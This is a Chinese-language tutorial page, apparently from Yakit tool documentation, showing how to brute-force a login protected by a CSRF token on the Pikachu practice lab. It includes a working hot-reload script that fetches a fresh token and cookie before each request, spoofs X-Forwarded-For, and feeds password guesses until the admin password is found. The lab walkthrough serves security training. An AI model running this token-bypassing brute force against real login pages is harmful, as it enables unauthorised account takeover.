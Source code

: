 ```yaml
---
sidebar_position: 19
---
```


# 热加载场景案例：csrf token保护下的爆破
这篇文章我们将会介绍一个热加载的实际应用案例：csrf token保护下的爆破。我们以pikachu靶场为例，安装pikachu靶场后(**记得要初始化**)，我们打开如下页面：
![](/img/products/yakit/Fuzz-hotpatch-example1/1.png)

任意输入账号密码之后，使用 yakit 的 MITM 模块拦截登录请求，我们可以看到请求如下：
![](/img/products/yakit/Fuzz-hotpatch-example1/2.png)

注意到除了用户和密码之外，还存在一个token的post参数，这是一个csrf token，它主要是用来防止CSRF攻击的，但是这也给我们的爆破增加了一定的难度，因为每次爆破都需要使用一个新的token。那么在这种情况下我们应该如何爆破呢？

首先我们应该来看看token是从哪里获取的，我们继续使用 yakit 的 MITM 模块拦截请求，这次我们拦截的是直接访问该页面的GET请求，当我们将其发送到 Web FUzzer 发送请求后，可以看到其响应中存在token：
![](/img/products/yakit/Fuzz-hotpatch-example1/3.png)

接下来就是让热加载出手了。我们很容易想到热加载中的"魔术"方法：`beforeRequest`。我们可以在请求发送前，再次发送一个GET请求来获取token值，再用这个值进行爆破，就可以绕过csrf token的保护了。

我们来看看如何实现，首先我们需要在热加载页面中编写热加载内容，代码如下：
```go
beforeRequest = func(req) {
// 发送GET请求，获取响应
rsp, _, err = poc.HTTP(`GET /vul/burteforce/bf_token.php HTTP/1.1
Host: 7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
Cache-Control: max-age=0
Referer: http://7f893460-c83a-4bce-83c7-d325ff9b65ba.node4.buuoj.cn:81/vul/csrf/csrfget/csrf_get_login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
X-Forwarded-For: 127.0.0.1
x-forwarded-for: 127.0.0.1
`)
if err != nil {
    return req
}
// 获取GET响应的Set-Cookie
cookie = poc.GetHTTPPacketHeader(rsp, "Set-Cookie")
node, err = xpath.LoadHTMLDocument(rsp)
if err != nil {
    return req
}
// 通过xpath语法获取token的值
tokenNode = xpath.FindOne(node, "//input[@name='token']")
if tokenNode == nil {
    return req
}
token = xpath.SelectAttr(tokenNode, "value")
// 替换token
req = req.ReplaceAll("__TOKEN__", token)
// 替换cookie
req = poc.AppendHTTPPacketHeader(req, "Cookie", cookie)
return req
}
```
这里我们一共做了以下几件事情：
1. 通过GET请求，拿到响应
2. 通过响应拿到Set-Cookie的值
3. 通过xpath语法获取token的值
4. 替换`__TOKEN__`为实际的token
5. 添加POST请求的Cookie为第二步中拿到的Set-Cookie，这样模拟了多个用户同时请求的情况


我们将token参数改为`__TOKEN__`，然后点击**发生请求**按钮，如图所示，显示`username or password is not exists～`而不是`csrf token error`，这证明我们已经成功获取到token了：
![](/img/products/yakit/Fuzz-hotpatch-example1/4.png)

接下来就很简单了，使用我们前面学到的 fuzztag 知识，使用 fuzztag 爆破密码，成功爆破出了admin的密码为123456：
![](/img/products/yakit/Fuzz-hotpatch-example1/5.png)

需要注意的是，我们使用了并发的技术来请求该网站，这也是我们为什么需要先从GET请求的响应中拿到Set-Cookie然后再设置POST请求的Cookie的原因，因为我们需要模拟多个用户同时请求的情况，如果是单个用户请求的话，我们需要将并发改为1。